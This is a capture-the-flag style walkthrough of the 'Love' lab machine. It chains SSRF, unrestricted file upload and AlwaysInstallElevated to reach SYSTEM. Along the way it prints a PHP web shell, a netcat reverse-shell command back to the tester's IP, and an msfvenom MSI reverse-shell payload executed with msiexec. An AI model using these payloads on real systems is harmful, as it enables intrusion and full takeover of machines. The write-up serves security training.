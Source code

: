 ```yaml
---
title: 'Love Machine Walkthrough'
keywords: []
layout: single
header:
  image: /assets/images/love.png
toc: true
toc_label: "Table of Contents"
sidebar:
  nav: "sidebar"
---
```


![](/Pen-testing-blog/assets/images/1__NTX__xdKE5hLRK9Zyw5ECig.png)

## Machine Summary

Love is a relatively straightforward machine running the Windows operating system (OS) and shows how server side request forgery, unrestricted file uploads and broken access control vulnerabilities combined, can lead to the total compromise of a web application. A summary of the attack path is as follows:

* As a result of a [server-side request forgery vulnerabiliity](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery), I was able to force the web application server to make an outbound call to my Kali Linux machine that revealed the ADMIN user credentials for web application.
* As a result of a [unrestricted file upload vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload) in the web application, I was able to upload a reverse shell which initiated a connection back to my Kali Linux machine as the normal user, Phoebe.
* As a result of broken access control vulnerability in which all users were allowed to install Windows installer (MSI packages), I installed a malicious MSI package containing a reverse shell payload that once executed, elevated my access privileges to NT Authority\System.

## Step 1 — Enumeration

As always, I begin by enumerating the victim’s machine to obtain as much as information about it as I can such as the running OS, the OS version, any open ports, services running on those open ports and what applications are hosted by the running services. I will use the **Nmap** web scanner.

### Enumeration with Nmap

I first run a scan to discover open ports and then run the default set of nmap enumeration scripts and service detection scan only on those open ports for greater efficiency. Explanation of flags:

*   \-p — Ports on victim machine to scan
*   \-n — Do not resolve DNS
*   \-sC — run default set of nmap enumeration scripts
*   \-sV — Detect services running on the open ports
*   \-T4 — Scan in aggressive mode to speed up the scan results

```bash
nmap 10.10.10.239 -p 80,135,139,443,445,3306,5000,5040,5985\-5986,7680,47001, 49664\-49670 -n -sC sV -T4
```

![](/Pen-testing-blog/assets/images/1__N9zudSMxSFdG8HAMHwHndw.png)

The (snipped) nmap output reveals the below for which I will manually enumerate further:

*   Web servers running http protocol on Apache httpd web server version 2.4.46 with PHP server-side scripting language version 7.3.27 are active on default port 80 and also on port 5000.
*   A web server running encrypted https protocol on Apache httpd server version 2.4.46 with PHP server-side scripting language version 7.3.27 is active on port default port 443.
*   MySQL database service is running on default port 3306.
*   Server messaging block (SMB) protocol for file share is running on default port 445 and also on port 139 using the NetBios service.
*   Microsoft remote procedure call (RPC) on is running on port 135.
*   An unknown service running on port 5040
*   The SSL certificate shows a subdomain of **staging.love.htb** which I will add to my hosts file along with the parent domain of **love.htb** at **/etc/hosts.**

echo "10.10.10.239 love.htb" | sudo tee -a /etc/hosts  
echo "10.10.10.239 staging.love.htb" | sudo tee -a /etc/hosts

![](/Pen-testing-blog/assets/images/1__MkCGxzd9ew7D19jwy15Ujw.png)

#### Enumeration of SMB file shares on ports 139 and 445

I attempt to enumerate the SMB file shares running on ports 139 and 445 but receive an access denied error. Explanation of flags:

*   \-N — Log in without a password
*   \-L — List all shares on the file share
*   \-p — ports to use

smbclient -p 139,445 -N -L //10.10.10.239

![](/Pen-testing-blog/assets/images/1____tCbPWjndMdUBZkXt9Gr4A.png)

#### **Enumeration of MySQL database on port 3306**

I attempt to login to the MySQL database on port 3306 but am unable to login from the IP address of my Kali Linux machine. Explanation of flags:

*   \-h — Specify the IP address of the host machine to log in to

mysql -10.10.10.239

![](/Pen-testing-blog/assets/images/1__XjansmbBOYNYLpztzjnpUw.png)

#### Enumeration of unknown service on port 5040

I attempt to enumerate the unknown service running on port 5040 via sending a cURL command to domain love.htb on port 5040 but no response from server was received with the command just hanging in terminal.

![](/Pen-testing-blog/assets/images/1__uhrgRwyx0pjdxPQ3DP96WQ.png)

#### **Enumeration of web servers on ports 80, 443, and 5000**

I visit the domain love.htb on each of the ports listed above. For **http://love.htb:80,** I get a login page. I tried the following techniques and all failed:

*   Test for common default user ID / passwords in use (admin / admin etc.)
*   Attempt to enumerate valid users via observation of different error messages shown when valid and invalid users IDs are entered
*   SQL injection

For [**http://love.htb:5000**](http://love.htb:5000,) and [**https://love.htb:443**,](https://love.htb:443,) I get a Forbidden — Access denied error for both access methods.

![](/Pen-testing-blog/assets/images/1__eFCdg7W5DIN2mjH89EGekw.png)
![](/Pen-testing-blog/assets/images/1__TsejWtOt3VHcxJx__v7uRqg.png)
![](/Pen-testing-blog/assets/images/1__TzVyJuRz4XBQmnH__UA__t2w.png)

However, when I visit [http://staging.love.htb](http://staging.love.htb):80 over port 80, I am presented with an online file scanner. If I click on the **Demo** button, I get a page that asks for an URL to scan.

![](/Pen-testing-blog/assets/images/1__CXE05a5a__idLgpgpMtL1__w.png)

#### Enumeration of hidden directories using GoBuster

Before I explore the functionality of the file scanner, I complete the enumeration step by searching for hidden directories using the web application fuzzing tool of GoBuster, although you can use other fuzzing tools such as ffuf, dirb , dirbuster, FeroxBuster etc. Explanation of flags is below. The scan found the hidden directories of /admin , /Admin. and /ADMIN that look very promising.

*   \-u — Specify the IP address of host to scan
*   \-w — Specify the path to wordlist on local attacking machine
*   \-s — Filter for successful response codes only (200, 201,203, 301, 302 etc.)
*   \-b — Disable negative status filtering by passing an empty string value

gobuster -u http://love.htb:80 -w /usr/share/wordlists/dirb/common.txt -s 200,201,203,301,302 -b ''

![](/Pen-testing-blog/assets/images/1__Zv8qn4MzZbtX__jwUa29u9g.png)

### Step 2 — Gaining initial foothold as user Phoebe

As the enumeration phase of a penetration testing is complete, I need to find some method to gain initial access to the box.

#### Exploitation of service side request forgery (SSRF) vulnerability

During enumeration, I could not access [**http://love.htb:5000**](http://love.htb:5000) over port 5000 but could access the URL over default port 80 for a web server. I suspected perhaps there were access rules denying access for application traffic over this port coming from outside the web server.

To test my hypothesis, I put in IP instance of my Kali Linux instance and set up a net cat listener to test if I get an incoming connection from Love.htb with IP address of **10.10.10.239.** I receive an inbound connection on my net cat listener, hence confirming the web server is vulnerable to SSRF.

![](/Pen-testing-blog/assets/images/1__BSPxDVzHarag__A2DwTNTTg.png)

Most likely, this means I can force the server to make a request on my behalf and try to access internal resources from itself using its loopback address at [**http://127.0.0.1.**](http://127.0.0.1.) During enumeration I could not access [**http://love.htb:5000**](http://love.htb:5000) externally, but perhaps I can use SSRF to bypass the access controls. I successfully exploit SSRF vulnerability as the snippet from Burp Repeater module of Burp Suite below shows how making a request to the server with the parameter **file** having a value of [http://127.0.0.1:5000](http://127.0.0.1:5000) results in the server response disclosing the password.

![](/Pen-testing-blog/assets/images/1__d69GIRwqO66Wpd0SM8nIHg.png)

#### Confirming remote code execution (RCE) on server

I attempt to log in to the voting system as the administrator at [http://love.htb/admin](http://love.htb/admin) using **admin** as the user ID and the password I just obtained as the password and was successful, evidenced via a temporary redirect response code of 302 from the server.

![](/Pen-testing-blog/assets/images/1__mMVBk0XI3r__FEJbi2BFivg.png)

After logging in successfully as the administrative user, I am presented with the voting system dashboard and discover it is possible to upload a custom picture for administrative user profile. Immediately, I suspect there might be an arbitrary file upload vulnerability that can grant remote code execution (RCE). I test for RCE by writing a simple snippet of PHP code to create a web shell (**webshell.php**), uploading as an image file, and passing in the test command, **whoami**. The test was successful, returning the login ID of currently logged in user, thus confirming I have RCE on the web server.

<?php system($\_REQUEST\["cmd"\]);

![](/Pen-testing-blog/assets/images/1__pNPNKfok__iy__baDT5mymHw.png)

#### Reverse shell as Phoebe — Using netcat with -e switch

The next step after confirming RCE is to obtain a reverse shell on the system to gain the initial foothold. First, I upload the **nc.exe** executable file to the web server via exploiting the arbitrary file upload vulnerability as shown above.

![](/Pen-testing-blog/assets/images/1__p1TMDNstoYnYYj9FLAUM7g.png)

Next, I set up a net cat listener on my Kali Linux instance as the attacking machine to catch the reverse shell upon it being created in the next step. Explanation of flags:

*   \-l — Set net cat to listening mode
*   \-v — Enable verbose output for greater information
*   \-n — Do not resolve DNS
*   \-p port to listen on (can be any open port)

![](/Pen-testing-blog/assets/images/1__mKnbg9FIfqw0SmBbZSvFsQ.png)

I remove **whoami** as the value of the **cmd** parameter passed in **webshell.php** site with the below command to have the victim’s machine initiate an outbound connection to my machine and trigger the command prompt to run after connection has been established. The reverse shell connection is successful, and I gain access to victim’s machine as user **love\\Phoebe**. Explanation of syntax:

*   10.10.14.36 — IP address of my Kali Linux instance
*   4444 — Port to connect to (must match port netcat is listening on)
*   \-e — Specify a file to run upon establishing a connection
*   cmd.exe — Specify the command prompt as value to the -e flag

cmd=nc+10.10.14.36+4444+-e+cmd.exe

![](/Pen-testing-blog/assets/images/1__V97ViX7oVCLnrgIfkATJtQ.png)

#### **Step 3 — Privilege escalation from Phoebe to NT Authority\\System**

The final step after gaining access as user Phoebe is to elevate my access to the root user as **NT Authority\\System**. I will be using the **WinPeas** privilege escalation scanning scripts which will enumerate the various ways my access privileges can be escalated. The scripts can either be downloaded from the [official GitHub repository](https://github.com/peass-ng/PEASS-ng) or via the native Kali Linux apt package manager using [sudo apt install peass](https://www.kali.org/tools/peass-ng/).

Before I run WinPeas, I always like to run the **systeminfo** command to get some basic information on the victim’s machine such as any patches applied and the architecture of the operating system. Output of this command is show below.

![](/Pen-testing-blog/assets/images/1__r9C7q5RyDmWpj9STDo2LKw.png)

#### Privilege escalation enumeration with WinPeas application

I transfer the version of WinPeas executable file that matches the OS architecture on the victim’s machine from my Kali Linux instance to the victim’s machine by hosting it on a Python web server and then fetching it from victim’s machine using the curl command.

![](/Pen-testing-blog/assets/images/1__IVElxJiZmm5bnLbSWwynzg.png)
![](/Pen-testing-blog/assets/images/1__rAduNmp2dZLsEQEq7Eu1Nw.png)

After running the winpeas64.exe script, I find out that the setting [**AlwaysInstallElevated** is enabled](https://learn.microsoft.com/en-us/windows/win32/msi/installing-a-package-with-elevated-privileges-for-a-non-admin) which enables any user to install Microsoft installer packages (.msi files) with elevated administrator privileges. All I have to do is create a malicious msi file and execute it on the victim’s machine.

![](/Pen-testing-blog/assets/images/1__VYVqjJbCKZvsN__38ERSXTA.png)

#### **Exploitation of security misconfiguration to obtain root user**

I will create the malicious payload using msfvenom. The configuration of the payload must match the configuration of the victim’s machine as shown by the **systeminfo** command output. Explanation of flags:

*   \-a — Specify the architecture — Choose x64
*   — Platforms — Specify the OS — Choose Windows
*   \-p — Specify the payload — Choose x64 stageless reverse shell over TCP
*   LHOST — Specify IP address of my Kali Linux attacking machine
*   LPORT — Specify port to use (can be any open port)
*   \-f — Specify payload format — choose msi
*   \-o — Specify output file name

msfvenom -a x64 --platform windows -p windows/x64/shell\_reverse\_tcp LHOST=10.10.14.36 LPORT=4445 -f msi -o reverseshell.msi

After transferring the malicious file to the victim’s machine via the Python server I previously set up, I execute the payload using the **msiexec** tool. Explanation of flags:

*   /quiet — specify install in quiet mode to not require user interaction
*   /qn — Suppress all user interfaces during installation process
*   /i — Install in normal user mode

msiexec /quiet /qn /i reverseshell.msi

After the malicious msi file is successfully installed, the malicious reverse shell payload executes, granting me access as **NT Authority\\System.**

![](/Pen-testing-blog/assets/images/1__cLaINZoE4o2zMmu3gkzbfg.png)

### Vulnerability Summary

This machine contained the following vulnerabilities:

*   **Server-side request forgery** — As a result of not limiting server requests to only trusted endpoints, I was able to force the server to connect to my Kali Linux instance on my behalf and by not filtering localhost or http://127.0.0.1 from permitted input in user supplied URL, I was able to force the server to send a request to itself via its loopback address and thereby access sensitive , internal only resources without authentication.
*   **Arbitrary file upload** — As a result of no filtering in place for either file type, file content, or file extensions for files being uploaded to the images directory on the web server, I was able upload a malicious payload in form of a web shell in lieu of a legitimate image file type such as jpeg or png.
*   **Security misconfiguration** **—** As a result of the AlwayInstallElevated registry value being enabled (registry keys set to 1), I was able to install msi files as a non — administrative user.